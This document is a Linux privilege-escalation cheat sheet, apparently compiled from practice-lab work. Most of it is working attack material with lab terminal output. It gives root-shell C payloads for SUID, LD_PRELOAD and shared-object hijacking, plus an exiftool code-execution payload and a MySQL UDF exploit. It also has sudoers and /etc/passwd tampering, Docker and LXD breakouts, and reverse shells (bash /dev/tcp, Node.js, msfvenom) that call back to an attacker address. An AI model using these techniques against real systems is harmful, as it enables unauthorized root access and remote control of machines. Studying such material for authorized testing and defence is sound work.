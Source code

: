 # Privilege Escalation (Linux)

<details>

<summary>Automated Tools</summary>

* Linpeas

```bash
wget http://10.11.67.208:8023/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

```bash
ssh -p 3306 user@challenge.nahamcon.com < linpeas.sh
```

* unix-privesc-check

<pre><code><strong>./unix-privesc-check standard > output.txt
</strong></code></pre>

</details>

### Enumeration

<details>

<summary>Basic System Info</summary>

* Find info about current user

```bash
id
```

* History

```bash
history
```

```bash
cat .bash_history
```

* To find which commands the user can run as sudo

<pre class="language-bash"><code class="lang-bash"><strong>sudo -l
</strong></code></pre>

* Find Kernel version (eg: 4.9.0-6-686)

```bash
uname -a
```

</details>

<details>

<summary>Services</summary>

* Find running services
  * `grep root` to find processes running as root

```bash
ps aux
```

```bash
ps -ef | grep vnc
```

* Find Scheduled Tasks
  * Scheduled tasks are listed under the /etc/cron.\* directories.
  * System administrators often add their own scheduled tasks in the /etc/crontab file

```bash
grep "CRON" /var/log/cron.log
```

```bash
ls -lah /etc/cron*
```

```bash
/etc/crontab
```

</details>

<details>

<summary>Network</summary>

* Network interfaces

```bash
ip a
```

* All network connections

```bash
ss -antlp
```

* Arp Cache
  * REACHABLE --> Connection is very recent
  * PERMANENT --> Entry manually added to arp table as static entry
  * DELAY/STALE --> Connection hasn't been recently verified
  * INCOMPLETE --> Addr resolution still in progress
  * FAILED--> System can't be reached

```bash
ip neigh
```

```bash
arp -a
```

* Find Routing Table

```bash
/sbin/route
```

* Finding Firewall Rules (non-root)
  * Could potentially view the backup firewall rules file

```bash
grep -Hs iptables /etc/*
```

\-H: show filename, -s: supress errors

* Finding Firewall Rules (root)

<pre class="language-bash"><code class="lang-bash"><strong>sudo iptables -L -v -n | more
</strong></code></pre>

* List all drives mounted at boot time

```bash
cat /etc/fstab
```

</details>

<details>

<summary>Users &#x26; Groups</summary>

* Check `/home` directory
* To find other accounts that are present

```bash
cat /etc/passwd
```

* Find which user has valid shell

```bash
grep -vE "nologin|false" /etc/passwd
```

</details>

<details>

<summary>Files &#x26; Directories</summary>

* SUID Files

```bash
find / -perm -u=s -type f 2>/dev/null
```

* Config Files

```bash
/etc/phpmysadmin/config-db.php
```

```bash
/var/www/html/wordpress/wp-config.php
```

```bash
/srv/http/wp-config.php
```

* Find every directory writable by current user

```bash
find / -writable -type d 2>/dev/null
```

* Find RSA keys

```bash
find / -name id_rsa
```

```bash
find / -name authorized_keys
```

* Find Installed Apps
  * For Debian based OSs:

```bash
dpkg -l
```

* Will only show apps installed by dpkg
  * For CentOS / openSUSE:

```bash
rpm -qa
```

</details>

<details>

<summary>Further Hardware Enumeration</summary>

* CPU Info (Architecture, Threads, Cores)
  * Some exploits require specific number of cores.

```bash
lscpu
```

* Enumerate the loaded kernel modules

```bash
lsmod
```

* Find out more about a specific kernel module
  * modinfo requires a full pathname to run.&#x20;
  * eg of \<kernel\_module\_name> : libata

```bash
/sbin/modinfo <kernel_module_name>
```

</details>

<details>

<summary>Password Hunting</summary>

```bash
cd <dir with suspicious files>
grep -R -i "connection" . 
grep -R -i "password" .
```

```bash
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```

```bash
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
```

</details>

<details>

<summary>Find Out About What Shells Are Present</summary>

```bash
cat /etc/shells
```

</details>

### Methods

<details>

<summary>Old Versions of Linux</summary>

* Check if `pkexec` is present
* If so, can try pwnkit
* [Vuln affects all versions of pkexec since its first version in 2009](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

[https://github.com/ly4k/PwnKit/blob/main/PwnKit](https://github.com/ly4k/PwnKit/blob/main/PwnKit)

</details>

<details>

<summary>Kernel Exploits</summary>

* Search for exploits targetting specific kernel versions

```bash
uname -a
```

* Try to compile the exploits on the target, if possible (`gcc -V`)

<!---->

* No gcc, or missing lib: run `ldd --version` on the target and try to get a docker container with the same libc installed, compile from there and transfer to target

[https://github.com/Snoopy-Sec/Localroot-ALL-CVE](https://github.com/Snoopy-Sec/Localroot-ALL-CVE)

[https://github.com/lucyoa/kernel-exploits/tree/master](https://github.com/lucyoa/kernel-exploits/tree/master)

### Recommended Kernel Exploits:

* FreeBSD 9.0: [https://www.exploit-db.com/exploits/28718](https://www.exploit-db.com/exploits/28718)
* Ubuntu 16.04: [https://www.exploit-db.com/exploits/39772](https://www.exploit-db.com/exploits/39772)
* Linux 2.6.9-89.EL: [https://www.exploit-db.com/exploits/9545](https://www.exploit-db.com/exploits/9545)
* Linux beta 3.0.0-12-generic: [https://gist.github.com/karthick18/1686299](https://gist.github.com/karthick18/1686299)
* Linux Kernel 2.6.39 to 3.2.2 (x86/x64) - 'Mempodipper' - [https://www.exploit-db.com/exploits/35161](https://www.exploit-db.com/exploits/35161)
* Linux core 2.6.32-21: [https://www.exploit-db.com/exploits/14814/](https://www.exploit-db.com/exploits/14814/)

### Linux Binaries

* Basic syntax

```bash
gcc cowroot.c -o
```

* 32 bit env

```bash
gcc -m32 -march=i686 code.c -o exp -static
```

* 64 bit env

```bash
gcc -m64 input.c -o output
```

### Windows Binaries

* 32 bit env

```bash
i686-w64-mingw32-gcc -o main32.exe main.c
```

* 64 bit env

```bash
x86_64-w64-mingw32-gcc -o main64.exe main.c
```

### Python to EXE

```
pyinstaller --onefile test.py
```

* will save in `dist` folder

</details>

<details>

<summary>SUDO Version</summary>

### Version 1.8.31

```bash
git clone https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit.git

make
chmod +x exploit
./exploit 
```

</details>

<details>

<summary>sudo -l</summary>

#### `(ALL, !root) NOPASSWD`

[sudo 1.8.27 - Security Bypass](https://www.exploit-db.com/exploits/47502)

#### `(rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

1. Put library in current directory&#x20;
2. `sudo -u rabbit` to run as rabbit user
3. `(ALL) SETENV: /usr/bin/python3.7 /tmp/hijack.py`
4. `python3 -c 'import sys; print("\n".join(sys.path))'` –> to view the Python Path (look for broken privileges)

If can run `/bin/chmod` and `/bin/chown` as sudo,&#x20;

* Create `setuid.c`

```c
int main()
{
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

* `gcc setuid.c -o setuid`
* `sudo /bin/chown root:root /opt/lcdelastix/setuid`
* `sudo chmod 4755 /opt/lcdelastix/setuid`

#### LD\_PRELOAD

In sudoers file,

```
Defaults        env_keep += LD_PRELOAD
```

shell.c :

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Executing binary with LD\_PRELOAD set to obtain root shell:

```bash
sudo LD_PRELOAD=/tmp/shell.so find
```

</details>

<details>

<summary>SUID/SGID bit</summary>

A file with SUID always executes as the user who owns the file, regardless of the user passing the command.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

[GTFObins](https://gtfobins.github.io/)

#### Eg : aria2c

* Copy out victim's `/etc/passwd`
* Edit root's password hash in `/etc/passwd`
* Must be in victim's`/etc` directory

```bash
/usr/bin/aria2c -o passwd "http://192.168.45.5/passwd" --allow-overwrite=true
```

Shared Object Injection Example:

```bash
strace /usr/local/bin/suid_so 2>&1 | grep -i -E "open|access|no such file"
```

* look for sus `.so` file (eg: `/home/user/.config/llibcalc.so`)

`libcalc.c`

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p";
}
```

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c
```

</details>

<details>

<summary>Cron Jobs</summary>

### Discovering Cronjob

```bash
cat /etc/crontab
```

```bash
ls -lah /etc/cron*
```

```bash
./pspy64
```

![](<../.gitbook/assets/image (195).png>)

#### Example (Tar Wildcard PrivEsc):

* Cronjob eg:

```bash
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

* PrivEsc:

```bash
cd /home/andre/backup
```

```bash
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" > backup.sh
```

```bash
chmod +x backup.sh
```

```bash
touch /home/andre/backup/--checkpoint=1
```

```bash
touch "/home/andre/backup/--checkpoint-action=exec=sh backup.sh"
```

```bash
/tmp/bash -p
```

### Exiftool > v7.44

[https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-exiftool-privilege-escalation/#arbitrary-code-execution-(cve-2021-22204)-version-7.44%2B](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-exiftool-privilege-escalation/#arbitrary-code-execution-\(cve-2021-22204\)-version-7.44%2B)

```bash
#Cronjob
www-data@exfiltrated:/var/www/html/subrion/uploads$ cat /etc/crontab
…
* *	* * *	root	bash /opt/image-exif.sh

www-data@exfiltrated:/var/www/html/subrion/uploads$ cat /opt/image-exif.sh 
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"


```

```bash
#Check Version
www-data@exfiltrated:/var/www/html/subrion/uploads$ exiftool -ver
11.88

┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.206.163]
└─# cat jpg
(metadata "\c${system('chmod +s /bin/bash')};")

┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.206.163]
└─# bzz jpg jpg.bzz                                         
                                                                                                                             
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.206.163]
└─# djvumake jpg.djvu INFO='1,1' BGjp=/dev/null ANTz=jpg.bzz

┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.206.163]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.206.163 - - [04/May/2023 06:09:55] "GET /jpg.djvu HTTP/1.1" 200 -

www-data@exfiltrated:/var/www/html/subrion/uploads$ wget http://192.168.45.5/jpg.djvu
--2023-05-04 10:09:55--  http://192.168.45.5/jpg.djvu
Connecting to 192.168.45.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 102 [image/vnd.djvu]
Saving to: ‘jpg.djvu’

jpg.djvu            100%[===================>]     102  --.-KB/s    in 0s      

2023-05-04 10:09:55 (212 KB/s) - ‘jpg.djvu’ saved [102/102]

www-data@exfiltrated:/var/www/html/subrion/uploads$ chmod 777 jpg.djvu 
www-data@exfiltrated:/var/www/html/subrion/uploads$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
www-data@exfiltrated:/var/www/html/subrion/uploads$ /bin/bash -p
bash-5.0# whoami
root
```

</details>

<details>

<summary>Binary with SUID Bit Set</summary>

```bash
/home/joe/live_logs
```

```bash
strings /home/joe/live_logs –> output is “tail /var/log/nginx/access.log”
```

```bash
echo "/bin/bash" > /tmp/tail
```

```bash
export PATH=/tmp:$PATH
```

```bash
echo $PATH
```

#### To obtain root shell

```bash
/home/joe/live_logs
```

</details>

<details>

<summary>Writable /etc/passwd File</summary>

#### Generate the hash of a new password

* Don't put special chars pls

```bash
openssl passwd <new_password>
```

#### In /etc/passd

* Insert the hash between the first and second colons of the root user

```bash
root:$1$5qwaBRuZ$UVaeTUIqUmpqSqdn62We6.:0:0:root:/root:/bin/bash
```

Generally, password hashes are saved in `/etc/shadow` (can't be read by normal users). However, password hashes were previously saved in `/etc/passwd/. So,`for backward compatibility, `etc/passwd` has precedence over `/etc/shadow`.&#x20;

#### Change to root user

```
su root
```

</details>

<details>

<summary>File Write to Root</summary>

### Write to /etc/sudoers

```bash
[root@nukem .ssh]# echo "bill ALL=(ALL) ALL" >> /etc/sudoers
```

```bash
[bill@nukem root]$ sudo -l
[sudo] password for bill: 
Runas and Command-specific defaults for bill:
    Defaults!/etc/ctdb/statd-callout !requiretty

User bill may run the following commands on nukem:
    (ALL) ALL
[bill@nukem root]$ sudo -i 
[root@nukem ~]# whoami
root
```

### Dosbox SUID

#### Simpler Method:

[https://gtfobins.github.io/gtfobins/dosbox/#suid](https://gtfobins.github.io/gtfobins/dosbox/#suid)

```bash
dosbox -c 'mount c /' -c "echo commander ALL=(ALL) ALL >>c:\etc\sudoers" -c exit
sudo -i
```

### Longer Method:

#### In Dosbox emulator:

```bash
Z:\> mount k /
Z:\> k:
k:\> cd etc
k:\> echo commander ALL=(ALL) ALL >> sudoers
```

#### In Victim:

```bash
[commander@nukem simple-file-list]$ sudo -l
[sudo] password for commander: 
Runas and Command-specific defaults for commander:
    Defaults!/etc/ctdb/statd-callout !requiretty

User commander may run the following commands on nukem:
    (ALL) ALL
[commander@nukem simple-file-list]$ sudo bash -i
[root@nukem simple-file-list]# whoami
root
```

</details>

<details>

<summary>Docker</summary>

If `.dockerenv` is present in `/` directory&#x20;

OR if user is in docker group (`id`)

```bash
eleanor@peppo:/var/tmp$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
redmine             latest              0c8429c66e07        2 years ago         542MB
postgres            latest              adf2b126dda8        2 years ago         313MB

eleanor@peppo:/var/tmp$ docker run -it -v /:/host/ redmine chroot /host/ bash
# docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
root@2df1ba0ecbb5:/ chmod +s /bin/bash
root@2df1ba0ecbb5:/ exit
eleanor@peppo:/var/tmp$ /bin/bash -p
bash-4.4# whoami
root
```

</details>

<details>

<summary>Network File Sharing (NFS)</summary>

Victim: `cat /etc/exports` (`no_root_squash`) present → create executable with SUID)

Attacker: `showmount -e 10.10.44.226`

Attacker: `mount -o rw 10.10.44.226:/tmp /home/kali/Documents/tryhackme/linprivesc/tmp`

Attacker: Create the `nfs.c`

```c
int main()
{
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Attacker: `gcc nfs.c -o nfs -w`

Attacker: `chmod +s nfs`

Victim: `cd /tmp; ./nfs`

</details>

<details>

<summary>id</summary>

1. Install [System container image builder](https://github.com/lxc/distrobuilder) on attacker
2. `make`
3. `cd $HOME/ContainerImages/alpine/; wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml`
4. `sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8`
5. Upload lxd.tar.xz and rootfs.squashfs to victim
6. `lxc image import lxd.tar.xz rootfs.squashfs --alias alpine`
7. `lxc image list`
8. `lxc init alpine privesc -c security.privileged=true`
9. `lxc list`
10. `lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true`
11. `lxc start privesc`
12. `lxc exec privesc /bin/sh`
13. `chmod +s /mnt/root/bin/bash`
14. `exit`
15. `/bin/bash -p`

If `Error: No storage pool found.` –> run `lxd init` and repeat the steps.

</details>

<details>

<summary>Python Module Import Hijacking</summary>

Leveraging on the use of importing modules from scripts (eg: Sudo Python scripts or Cron jobs)

### Default Path for Python Library Searching

```bash
    1. Directory where script is executed
    2. /usr/lib/python2.7
    3. /usr/lib/python2.7/plat-x86_64-linux-gnu
    4. /usr/lib/python2.7/lib-tk
    5. /usr/lib/python2.7/lib-old
    6. /usr/lib/python2.7/lib-dynload
    7. /usr/local/lib/python2.7/dist-packages
    8. /usr/lib/python2.7/dist-packages
```

#### To find out the paths

```bash
python -c 'import sys; print "\n".join(sys.path)'
```

### Example:

#### Able to run as sudo (sudo /usr/bin/python /home/walter/wifi\_reset.py)

```python
import wificontroller

wificontroller.stop("wlan0", "1")
wificontroller.reset("wlan0", "1")
wificontroller.start("wlan0", "1")
```

#### Create wificontroller.py (in the same directory as the python script that's able to run as sudo)

```python
import os

def stop(a,b):
	os.system("chmod +s /bin/bash")

```

#### Run the script as sudo to obtain root!

```bash
www-data@walla:/home/walter$ sudo /usr/bin/python /home/walter/wifi_reset.py
Traceback (most recent call last):
  File "/home/walter/wifi_reset.py", line 12, in <module>
    wificontroller.reset("wlan0", "1")
www-data@walla:/home/walter$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
www-data@walla:/home/walter$ /bin/bash -p
bash-5.0# whoami
root

```

</details>

<details>

<summary>sudo sudo -v </summary>

sudo versions: legacy v1.8.2-1.8.31p2 , stable v1.9.0-1.9.5p1

```bash
sudoedit -s '\' $(python3 -c 'print("A"*1000)') 
```

If `malloc(): memory corruption` means exploitable to [Baron Samedit](https://github.com/blasty/CVE-2021-3156)

```bash
cat /etc/*release
```

```bash
./sudo-hax-me-a-sandwich 0
```

</details>

<details>

<summary>Capabilities</summary>

more granular privilege management

```
getcap -r / 2>/dev/null
```

</details>

<details>

<summary>Shared Object Files || LD_LIBRARY_PATH</summary>

[https://tbhaxor.com/exploiting-shared-library-misconfigurations/](https://tbhaxor.com/exploiting-shared-library-misconfigurations/)

### SUID Shared Object Exploit:

#### From linpeas:

\-rwsr-xr-x 1 root root 17K Jan 26  2021 /usr/bin/messenger (Unknown SUID binary)

* Exploit.c (For SUID shared object exploit)

```c
#include <stdlib.h>
#include <unistd.h>

void _init() {
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

```bash
gcc -shared -fPIC -nostartfiles -o libmalbec.so exploit.c
chmod +x libmalbec.so
```

<pre class="language-bash"><code class="lang-bash"><strong>carlos@malbec:/home/carlos$ /usr/bin/messenger
</strong>/usr/bin/messenger: error while loading shared libraries: libmalbec.so: cannot open shared object file: No such file or directory

carlos@malbec:/home/carlos$ ldd /usr/bin/messenger
	linux-vdso.so.1 (0x00007ffd7da8f000)
	libmalbec.so => not found
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f97104f8000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f97106ce000)

carlos@malbec:/home/carlos$ cat /etc/ld.so.conf
include /etc/ld.so.conf.d/*.conf

carlos@malbec:/etc/ld.so.conf.d$ cat malbec.conf
/home/carlos/

#This means that we have to put libmalbec.so in /home/carlos for /usr/bin/mesenger to execute it!

┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.159.129]
└─# cat exploit.c     
#include &#x3C;stdlib.h>
#include &#x3C;unistd.h>

void _init() {
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}

┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.159.129]
└─# gcc -shared -fPIC -nostartfiles -o libmalbec.so exploit.c

┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.159.129]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.159.129 - - [29/Apr/2023 06:10:44] "GET /libmalbec.so HTTP/1.1" 200 -

carlos@malbec:/home/carlos$ wget http://192.168.45.5/libmalbec.so
--2023-04-29 06:07:44--  http://192.168.45.5/libmalbec.so
Connecting to 192.168.45.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14104 (14K) [application/octet-stream]
Saving to: ‘libmalbec.so’

libmalbec.so        100%[===================>]  13.77K  54.5KB/s    in 0.3s    

2023-04-29 06:07:44 (54.5 KB/s) - ‘libmalbec.so’ saved [14104/14104]

carlos@malbec:/home/carlos$ chmod +x libmalbec.so
carlos@malbec:/home/carlos$ /usr/bin/messenger
root@malbec:/home/carlos# whoami
root

</code></pre>

### CronJob Shared Object Exploit:

#### From Linpeas:

```bash
LD_LIBRARY_PATH=...:/usr/local/lib/dev:...

*  *  *  *  * root       /usr/bin/log-sweeper
```

* exp.c (For Cronjob Shared Object Exploit)

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

```bash
gcc -shared -fPIC -nostartfiles -o utils.so exp.c
chmod +x utils.so
```

<pre class="language-bash"><code class="lang-bash"><strong># From Linpeas
</strong>PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""


*  *  *  *  * root       /usr/bin/log-sweeper
<strong>
</strong><strong>[pablo@sybaris ~]$  /usr/bin/log-sweeper
</strong>/usr/bin/log-sweeper: error while loading shared libraries: utils.so: cannot open shared object file: No such file or directory

# finding writable path in LD_LIBRARY_PATH:
[pablo@sybaris ~]$ ls -la /usr/local/lib/dev/
total 0
drwxrwxrwx  2 root root  6 Sep  7  2020 .
drwxr-xr-x. 4 root root 30 Sep  7  2020 ..

[pablo@sybaris dev]$ cat exp.c
#include &#x3C;stdio.h>
#include &#x3C;stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash &#x26;&#x26; chmod +s /tmp/bash &#x26;&#x26; /tmp/bash -p");
}

[pablo@sybaris dev]$ gcc -shared -fPIC -nostartfiles -o utils.so exp.c
[pablo@sybaris dev]$ chmod +x utils.so

[pablo@sybaris dev]$ ls -la /tmp
total 944
drwxrwxrwt.  9 root root    261 May  1 22:23 .
dr-xr-xr-x. 17 root root    244 Sep  4  2020 ..
-rwsr-sr-x   1 root root 964536 May  1 22:23 bash

[pablo@sybaris dev]$ /tmp/bash -p
bash-4.2# whoami
root
</code></pre>

</details>

<details>

<summary>raptor_udf2.so</summary>

Versions tried on:&#x20;

* 10.3.17-MariaDB
* 5.0.77 MySQL
* 5.7.30 MySQL

On Kali:

* Try compiling with`-m32` for 32bit machines

```bash
searchsploit -m 1518
mv 1518.c raptor_udf2.c
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
msfvenom -p linux/x86/shell_reverse_tcp LHOST=tun0 LPORT=80 -f elf > non_staged.elf
```

On Victim's machine:

```bash
wget http://192.168.45.214/raptor_udf2.so
wget http://192.168.45.214/non_staged.elf
```

On MariaDB server:

* For MySQL server, change the dumpfile to&#x20;
  * `/usr/lib/raptor_udf2.so`
  * `/usr/lib/mysql/plugin/raptor_udf2.so`

```sql
create database poc;
use poc;
create table foo(line blob);
insert into foo values(load_file('/home/mario/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
select do_system('/home/mario/non_staged.elf');
```

* If `ERROR 1126 (HY000): Can't open shared library 'raptor_udf2.so' (errno: 0 /usr/lib/mysql/plugin/raptor_udf2.so: file too short)` --> simply copy the static object file into the MySQL plugins folder using Bash.&#x20;

```bash
mysql> create database poc;
mysql> use poc;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/var/tmp/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
#ERROR 1126 (HY000): Can't open shared library 'raptor_udf2.so' (errno: 0 /usr/lib/mysql/plugin/raptor_udf2.so: file too short)
mysql> \! cp /var/tmp/raptor_udf2.so /usr/lib/mysql/plugin/raptor_udf2.so
mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.01 sec)
mysql> select * from mysql.func;
mysql> select do_system('chmod +s /bin/bash');
```

* [https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf](https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf)

</details>

<details>

<summary>Webmin To Root</summary>

* Generate Reverse shell payload

```bash
cp /usr/share/webshells/perl/perl-reverse-shell.pl .
```

```bash
wget http://192.168.45.190/perl-reverse-shell.pl -O rev.cgi
```

* Use [https://github.com/CyberKnight00/Exploit/blob/master/Webmin%20%3C%201.290%20Usermin%20%3C%201.220%20-%20Arbitrary%20File%20Disclosure/webmin.py](https://github.com/CyberKnight00/Exploit/blob/master/Webmin%20%3C%201.290%20Usermin%20%3C%201.220%20-%20Arbitrary%20File%20Disclosure/webmin.py)

```bash
python2 webmin.py -r http --host 10.11.1.141 -p 10000 -f /var/tmp/rev.cgi
```

</details>

<details>

<summary>Lateral Movement using Postfix Disclaimer</summary>

[https://www.howtoforge.com/how-to-automatically-add-a-disclaimer-to-outgoing-emails-with-altermime-postfix-on-debian-squeeze](https://www.howtoforge.com/how-to-automatically-add-a-disclaimer-to-outgoing-emails-with-altermime-postfix-on-debian-squeeze)

When any of the emails included in `/etc/postfix/disclaimer_addresses/etc/postfix/disclaimer_addresses` send/receive an email --> `/etc/postfix/disclaimer` file will be executed

<pre class="language-bash"><code class="lang-bash">brian.moore@postfish:/var/tmp$ id
... 997(filter)

In Linpeas output:
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxrwx--- 1 root filter 1184 Apr 29 06:30 /etc/postfix/disclaimer

brian.moore@postfish:/var/tmp$ cat /etc/postfix/disclaimer_addresses
it@postfish.off
brian.moore@postfish.off

<strong>Placing our reverse shell in /etc/postfix/disclaimer at line 3:
</strong>bash -i >&#x26; /dev/tcp/192.168.45.5/80 0>&#x26;1

┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.159.137]
└─# nc 192.168.159.137 25
220 postfish.off ESMTP Postfix (Ubuntu)
HELO postfish.off
250 postfish.off
MAIL FROM:it@postfish.off
250 2.1.0 Ok
RCPT TO:brian.moore@postfish.off
250 2.1.5 Ok
DATA
354 End data with &#x3C;CR>&#x3C;LF>.&#x3C;CR>&#x3C;LF>
FROM: it@postfish.off
To: brian.moore@postfish.off
Date: sat, 29 Apr 2023 12:00:00 +0000

shell please!!!
.
250 2.0.0 Ok: queued as 8A96C458E6

┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.159.137]
└─# nc -lvp 80 
listening on [any] 80 ...
connect to [192.168.45.5] from postfish.off [192.168.159.137] 49704
bash: cannot set terminal process group (36932): Inappropriate ioctl for device
bash: no job control in this shell
filter@postfish:/var/spool/postfix$ whoami
whoami
filter

</code></pre>

</details>

<details>

<summary>Node Modules Cronjob</summary>

### Cronjob:

```bash
* * * * * sebastian /home/sebastian/audit.js
```

```bash
www-data@charlotte:/var/tmp$ cat /home/sebastian/audit.js
#!/usr/bin/env node
...
const auditData = require("/var/www/node/package");
```

NodeJS documentation: if exact filename not found then filename with .js, .json, .node will be loaded.

### Creating /var/www/node/package.js

```javascript
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(53, "192.168.45.5", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();
```

### Rev Shell

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.159.184]
└─# nc -lvp 53 
listening on [any] 53 ...
192.168.238.184: inverse host lookup failed: Unknown host
connect to [192.168.45.5] from (UNKNOWN) [192.168.238.184] 35226
whoami
sebastian
```

</details>

### Resources

<details>

<summary>Links</summary>

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

[BeRoot Guide](https://github.com/AlessandroZ/BeRoot/blob/master/Linux/README.md)

</details>

